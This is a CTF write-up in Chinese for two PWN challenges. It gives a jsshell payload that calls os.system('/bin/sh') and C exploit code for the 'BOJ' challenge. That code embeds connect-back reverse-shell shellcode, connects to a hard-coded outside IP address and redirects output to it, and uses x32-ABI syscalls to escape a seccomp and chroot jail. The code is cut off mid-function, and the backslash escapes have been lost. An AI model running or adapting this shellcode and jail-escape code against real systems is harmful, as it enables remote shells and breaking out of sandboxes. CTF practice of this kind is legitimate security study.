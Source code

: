 **Monkey (PWN)**

mozilla的jsshell，可以在网上找到其源码，阅读发现其中加入了全局对象os，其中有system函数。

```
Payload：os.system(‘/bin/sh’);
```

**BOJ (PWN)**

这是个黑盒测试题，经过测试发现可以使用socket系统调用，所以可以获得程序运行结果。首先readdir列目录，看到环境内部如/proc，/sys等目录都没有挂载，猜测程序在chroot jail中，在/root/发现了scf.so，经过分析发现该so经过LD_PRELOAD加载到当前进程，使用了seccomp阻止了关键syscall，于是用x32 ABI绕过之，通过chdir + chroot的方式绕过chroot jail。

逃出jail后在根目录发现flag但是没有权限读取，在/home目录下发现了sandbox和cr，cr是负责编译与运行程序的类似crontab的程序，在其中存在命令注入漏洞，可以得到flag。

Exploit:



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;dirent.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;arpa/inet.h&gt;
#include &lt;netinet/in.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sys/syscall.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;errno.h&gt;
#include &lt;sys/syscall.h&gt;
#define PORT "x7ax69"
#define IPADDR "x65xc8x8ax1f"
unsigned char code[] = 
"x48x31xc0x48x31xffx48x31xf6x48x31xd2x4dx31xc0x6a"
"x02x5fx6ax01x5ex6ax06x5ax6ax29x58x0fx05x49x89xc0"
"x48x31xf6x4dx31xd2x41x52xc6x04x24x02x66xc7x44x24"
"x02"PORT"xc7x44x24x04"IPADDR"x48x89xe6x6ax10"
"x5ax41x50x5fx6ax2ax58x0fx05x48x31xf6x6ax03x5ex48"
"xffxcex6ax21x58x0fx05x75xf6x48x31xffx57x57x5ex5a"
"x48xbfx2fx2fx62x69x6ex2fx73x68x48xc1xefx08x57x54"
"x5fx6ax3bx58x0fx05";
int main(int argc, char* argv[], char* envp[])
{
struct sockaddr_in sin;
struct stat st;
        char buf[100];
off_t l = 0;
int s = socket(2,1,0);
sin.sin_family = AF_INET;
sin.sin_port = htons(9999);
sin.sin_addr.s_addr = inet_addr("101.200.138.31");
connect(s, (struct sockaddr*)&amp;sin, sizeof(sin));
dup2(s, 1);
puts("Start");
printf("%d %dn", getuid(), getgid());
        chdir("/tmp/");
        mkdir(".345", 0777);
   if(syscall(SYS_chroot|0x40000000, ".345") &lt; 0) printf("chroot %dn", errno);
        int x;for(x=0;x&lt;1000;x++) chdir("..");
        if(syscall(SYS_chroot|0x40000000, ".")&lt;0) printf("chroot2 %dn", errno);
       /* snprintf(buf,99,"/proc/%d/mem", getppid());
 int fd=open(buf, O_RDWR);
if(fd&lt;0) printf("open %dn", errno);
```